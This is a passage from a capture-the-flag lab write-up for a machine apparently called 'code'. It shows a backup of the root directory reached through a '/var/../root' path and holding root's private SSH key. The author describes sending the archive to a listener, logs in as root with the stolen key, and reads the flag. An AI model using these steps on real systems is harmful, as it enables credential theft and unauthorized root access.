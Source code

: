 ```plaintext
/var/../root/scripts/backups/code_home_app-production_app_2024_August.tar.bz2
/var/../root/scripts/database.db
/var/../root/scripts/cleanup2.sh
/var/../root/.python_history
/var/../root/root.txt
/var/../root/.cache/
/var/../root/.cache/motd.legal-displayed
/var/../root/.ssh/
/var/../root/.ssh/id_rsa
/var/../root/.ssh/authorized_keys
/var/../root/.bash_history
/var/../root/.bashrc
```
It works out! Now we have the backup of the root directory successfully!
All is left is to exfiltrate it, unzip it, and login in as root.

Same technique as previously, we start a listener on our machine, and we send the file over TCP to our machine, upon unzip it, we can directly read the root flag root.txt, but we want persistence :)

So we run ssh using the private key of root : 
```plaintext
➜  .ssh ssh -i id_rsa root@10.10.11.62
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-208-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed 06 Aug 2025 06:06:23 PM UTC

  System load:           0.0
  Usage of /:            53.7% of 5.33GB
  Memory usage:          19%
  Swap usage:            0%
  Processes:             236
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.62
  IPv6 address for eth0: dead:beef::250:56ff:fe94:9e73


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Aug 6 18:06:25 2025 from 10.10.16.22
root@code:~#
```
And we got root shell! Now we can read our root flag  :  
```plaintext
root@code:~# cat root.txt
468aab655932260d0cff4dexxxxxxxx
```




